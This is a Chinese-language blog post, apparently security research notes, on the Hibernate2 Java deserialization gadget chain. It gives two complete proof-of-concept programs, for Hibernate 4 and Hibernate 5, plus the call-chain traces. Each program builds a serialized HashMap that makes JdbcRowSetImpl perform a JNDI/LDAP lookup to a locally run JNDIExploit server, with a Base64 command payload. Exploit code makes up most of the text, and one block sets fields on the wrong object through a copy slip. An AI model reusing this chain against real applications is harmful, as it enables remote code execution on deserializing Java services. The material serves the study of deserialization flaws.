


Hibernate2的攻击链和Hibernate1的攻击链是基本一致的，只是在Hibernate1中我们使用`Getter`来触发`TemplatesImpl`恶意类的操作，其中`TemplatesImpl`是通过序列化字节码来加载到目标系统的。[Hibernate1攻击链分析](../Hibernate1/main.md)

而在`Hibernate2`中，则是通过`JdbcRowSetImpl`来进行外部的`jndi:ldap`进行加载恶意代码的。

如果你对`JdbcRowSetImpl`还不太熟悉，可以看我的这篇文章：[JdbcRowSetImpl分析](../../D%20-%20JNDI注入/JdbcRowSetImpl/main.md)

我这里就直接给POC了，还是和Hibdernate1一样，具有不同版本(hibernate4、hibernate5)的poc分别。

哦对了，如果你想要使用下方的POC，你还必须要有一个JNDI攻击的一个小工具，这个我也曾经写过文章来解释过：[JNDIExploit攻击工具分析](../../D%20-%20JNDI注入/JNDI-Exploit分析/main.md)，你需要在你本地启动这个工具，这样你的POC才能通过这个小工具把恶意代码加载进来。

## **POC1 - (by hibernate4)**

环境准备：JDK版本<=6u211、7u201、8u191即可

我这里使用的是JDK8u66

```xml
<!-- https://mvnrepository.com/artifact/org.hibernate/hibernate-core -->
<dependency>
    <groupId>org.hibernate</groupId>
    <artifactId>hibernate-core</artifactId>
    <version>4.3.6.Final</version>
</dependency>
```

POC代码如下：

```java
package hibernate2;

import com.sun.rowset.JdbcRowSetImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.tuple.component.AbstractComponentTuplizer;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.AbstractType;
import org.hibernate.type.ComponentType;
import org.hibernate.type.Type;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate24 {

    private static final String serialFileName = "hibernate24.ser";
    public static void main(String[] args) throws Exception {
        /*Object tpl = genTemplates();
        Class<?> tplClass = tpl.getClass();
        String method = "getOutputProperties";*/
        String method = "getDatabaseMetaData";
        JdbcRowSetImpl tpl = new JdbcRowSetImpl();
        Class<?> tplClass = tpl.getClass();
        tpl.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");

        // ---------------------------------start by hibernate4--------------------------
        Class<?> getterIf = Class.forName("org.hibernate.property.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
        bgCon.setAccessible(true);

        String propName = Character.toLowerCase(method.charAt(3)) + method.substring(4);

        Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), propName);
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);
        // ---------------------------------end by hibernate4--------------------------

        // ---------------------------------start by hibernate5------------------------
        /*Class<?> getterIf = Class.forName("org.hibernate.property.access.spi.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor<?> bgCon = basicGetter.getConstructor(Class.class, String.class, Method.class);
        Object g = bgCon.newInstance(tplClass, "test", tplClass.getDeclaredMethod(method));
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);*/
        // ---------------------------------end by hibernate5---------------------------

        Constructor<Object> tupObjCons = Object.class.getDeclaredConstructor(new Class[0]);
        tupObjCons.setAccessible(true);
        Constructor<?> tupSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(PojoComponentTuplizer.class, tupObjCons);
        tupSC.setAccessible(true);
        PojoComponentTuplizer tup = (PojoComponentTuplizer)tupSC.newInstance(new Object[0]);

        Field gettersField = AbstractComponentTuplizer.class.getDeclaredField("getters");
        gettersField.setAccessible(true);
        gettersField.set(tup, getters);

        // ComponentType t = Reflections.createWithConstructor(ComponentType.class, AbstractType.class, new Class[0], new Object[0]);
        Constructor<AbstractType> tObjCons = AbstractType.class.getDeclaredConstructor(new Class[0]);
        tObjCons.setAccessible(true);
        Constructor<?> tSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(ComponentType.class, tObjCons);
        tSC.setAccessible(true);
        ComponentType t = (ComponentType)tSC.newInstance(new Object[0]);

        // Reflections.setFieldValue(t, "componentTuplizer", tup);
        Field componentTuplizerField = t.getClass().getDeclaredField("componentTuplizer");
        componentTuplizerField.setAccessible(true);
        componentTuplizerField.set(t, tup);
        // Reflections.setFieldValue(t, "propertySpan", 1);
        Field propertySpanField = t.getClass().getDeclaredField("propertySpan");
        propertySpanField.setAccessible(true);
        propertySpanField.set(t, 1);

        // Reflections.setFieldValue(t, "propertyTypes", new Type[] { t });
        Field propertyTypesField = t.getClass().getDeclaredField("propertyTypes");
        propertyTypesField.setAccessible(true);
        propertyTypesField.set(t, new Type[] {t});


        TypedValue v1 = new TypedValue(t, null);

        // Reflections.setFieldValue(v1, "value", tplClass);
        Field valueField = v1.getClass().getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(v1, tpl);

        // Reflections.setFieldValue(v1, "type", t);
        Field typeField = v1.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(v1, t);

        TypedValue v2 = new TypedValue(t, null);
        // Reflections.setFieldValue(v2, "value", tplClass);
        Field value2Field = v1.getClass().getDeclaredField("value");
        value2Field.setAccessible(true);
        value2Field.set(v1, tpl);

        // Reflections.setFieldValue(v2, "type", t);
        Field type2Field = v1.getClass().getDeclaredField("type");
        type2Field.setAccessible(true);
        type2Field.set(v1, t);


        // ----------------------------makeMap---------------------------------
        HashMap s = new HashMap();

        // Reflections.setFieldValue(s, "size", 2);
        Field sizeField = s.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(s, 2);

        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
//        Reflections.setAccessible(nodeCons);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
//        Reflections.setFieldValue(s, "table", tbl);
        Field tableField = s.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(s, tbl);
        serialize(s);
        unSerialize();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}

```

效果如下：



### 攻击链

```java
HashMap.readObject()
	HashMap.hash()
		TypedValue.hashCode()
			ValueHolder<Integer>.getValue()
				DeferredInitializer<Integer>.initialize()
					ComponentType.getHashCode()
						ComponentType.getPropertyValue()
							PojoComponentTuplizer$AbstractComponentTuplizer.getPropertyValue()
								BasicPropertyAccessor$BasicGetter.get()
    								Method(getDatabaseMetaData).invoke(JdbcRowSetImpl)
									// ......
```

## POC1 - (by hibernate5)

环境准备：JDK版本<=6u211、7u201、8u191即可

我这里使用的是JDK8u66

```xml
<!-- https://mvnrepository.com/artifact/org.hibernate/hibernate-core -->
<dependency>
    <groupId>org.hibernate</groupId>
    <artifactId>hibernate-core</artifactId>
    <version>5.0.7.Final</version>
</dependency>
```

POC代码如下：

```java
package hibernate2;

import com.sun.rowset.JdbcRowSetImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.tuple.component.AbstractComponentTuplizer;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.AbstractType;
import org.hibernate.type.ComponentType;
import org.hibernate.type.Type;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate25 {

    private static final String serialFileName = "hibernate25.ser";
    public static void main(String[] args) throws Exception {
        /*Object tpl = genTemplates();
        Class<?> tplClass = tpl.getClass();
        String method = "getOutputProperties";*/
        String method = "getDatabaseMetaData";
        JdbcRowSetImpl tpl = new JdbcRowSetImpl();
        Class<?> tplClass = tpl.getClass();
        tpl.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");

        // ---------------------------------start by hibernate4--------------------------
/*        Class<?> getterIf = Class.forName("org.hibernate.property.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
        bgCon.setAccessible(true);

        String propName = Character.toLowerCase(method.charAt(3)) + method.substring(4);

        Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), propName);
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);*/
        // ---------------------------------end by hibernate4--------------------------

        // ---------------------------------start by hibernate5------------------------
        Class<?> getterIf = Class.forName("org.hibernate.property.access.spi.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor<?> bgCon = basicGetter.getConstructor(Class.class, String.class, Method.class);
        Object g = bgCon.newInstance(tplClass, "test", tplClass.getDeclaredMethod(method));
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);
        // ---------------------------------end by hibernate5---------------------------

        Constructor<Object> tupObjCons = Object.class.getDeclaredConstructor(new Class[0]);
        tupObjCons.setAccessible(true);
        Constructor<?> tupSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(PojoComponentTuplizer.class, tupObjCons);
        tupSC.setAccessible(true);
        PojoComponentTuplizer tup = (PojoComponentTuplizer)tupSC.newInstance(new Object[0]);

        Field gettersField = AbstractComponentTuplizer.class.getDeclaredField("getters");
        gettersField.setAccessible(true);
        gettersField.set(tup, getters);

        // ComponentType t = Reflections.createWithConstructor(ComponentType.class, AbstractType.class, new Class[0], new Object[0]);
        Constructor<AbstractType> tObjCons = AbstractType.class.getDeclaredConstructor(new Class[0]);
        tObjCons.setAccessible(true);
        Constructor<?> tSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(ComponentType.class, tObjCons);
        tSC.setAccessible(true);
        ComponentType t = (ComponentType)tSC.newInstance(new Object[0]);

        // Reflections.setFieldValue(t, "componentTuplizer", tup);
        Field componentTuplizerField = t.getClass().getDeclaredField("componentTuplizer");
        componentTuplizerField.setAccessible(true);
        componentTuplizerField.set(t, tup);
        // Reflections.setFieldValue(t, "propertySpan", 1);
        Field propertySpanField = t.getClass().getDeclaredField("propertySpan");
        propertySpanField.setAccessible(true);
        propertySpanField.set(t, 1);

        // Reflections.setFieldValue(t, "propertyTypes", new Type[] { t });
        Field propertyTypesField = t.getClass().getDeclaredField("propertyTypes");
        propertyTypesField.setAccessible(true);
        propertyTypesField.set(t, new Type[] {t});


        TypedValue v1 = new TypedValue(t, null);

        // Reflections.setFieldValue(v1, "value", tplClass);
        Field valueField = v1.getClass().getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(v1, tpl);

        // Reflections.setFieldValue(v1, "type", t);
        Field typeField = v1.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(v1, t);

        TypedValue v2 = new TypedValue(t, null);
        // Reflections.setFieldValue(v2, "value", tplClass);
        Field value2Field = v1.getClass().getDeclaredField("value");
        value2Field.setAccessible(true);
        value2Field.set(v1, tpl);

        // Reflections.setFieldValue(v2, "type", t);
        Field type2Field = v1.getClass().getDeclaredField("type");
        type2Field.setAccessible(true);
        type2Field.set(v1, t);


        // ----------------------------makeMap---------------------------------
        HashMap s = new HashMap();

        // Reflections.setFieldValue(s, "size", 2);
        Field sizeField = s.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(s, 2);

        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
//        Reflections.setAccessible(nodeCons);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
//        Reflections.setFieldValue(s, "table", tbl);
        Field tableField = s.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(s, tbl);
        serialize(s);
        unSerialize();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

效果如下：



### 攻击链

```java
HashMap.readObject()
	HashMap.hash()
		TypedValue.hashCode()
			ValueHolder<Integer>.getValue()
				DeferredInitializer<Integer>.initialize()
					ComponentType.getHashCode()
						ComponentType.getPropertyValue()
							PojoComponentTuplizer$AbstractComponentTuplizer.getPropertyValue()
								GetterMethodImpl.get()
									Method(getDatabaseMetaData).invoke(JdbcRowSetImpl)
									// ......
```


